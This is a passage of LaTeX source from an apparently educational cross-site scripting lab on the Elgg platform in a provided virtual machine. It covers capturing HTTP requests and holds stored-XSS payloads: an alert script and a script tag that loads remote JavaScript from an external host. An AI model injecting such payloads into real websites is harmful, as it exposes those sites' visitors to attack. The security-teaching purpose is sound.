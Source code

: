 \subsection{Preparation: Getting Familiar with the \texttt{"HTTP Header Live"} tool}

In this lab, we need to construct HTTP requests. To figure out 
what an acceptable HTTP request in Elgg looks like, we need to 
be able to capture and analyze HTTP requests. 
We can use Firefox add-ons such as \texttt{"HTTP Header Live"} for this
purpose. We have installed this add-on in the provided VM, but it does not seem to 
work properly anymore due to the verification/signing compatibility issues. 
The problem can be resolved by reinstalling a newer version of this add-on.

However, we recommend using Firefox's built-in
\texttt{"Developer Tools"} as the primary method for
capturing and analyzing HTTP traffic. After opening this tool, open the \texttt{Network} tool, 
you should be able to see the captured HTTP requests. See further instructions provided 
in the Guideline section~(\S~\ref{web:sec:web_dev_tools}). 




\subsection{Task 1: Posting a Malicious Message to Display an Alert Window}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile, 
the JavaScript program will be executed and an alert window
will be displayed. The following JavaScript program will display an alert window: 
\begin{lstlisting}
<script>alert('XSS');</script> 
\end{lstlisting}
If you embed the above JavaScript code in your profile (e.g. in the brief
description field), then any user who views your profile will see the alert window. 

In this case, the JavaScript code is short enough to be typed into the 
short description field. If you want to run a long JavaScript, but you are limited
by the number of characters you can type in the form, you can store the 
JavaScript program in a standalone file, save it with the .js extension, and 
then refer to it using the {\tt src} attribute in the {\tt <script>} tag. 
See the following example:
\begin{lstlisting}
<script type="text/javascript" 
        src="http://www.example.com/myscripts.js">
</script>
\end{lstlisting}
In the above example, the page will fetch the JavaScript program from
\url{http://www.example.com}, which can be any web server.



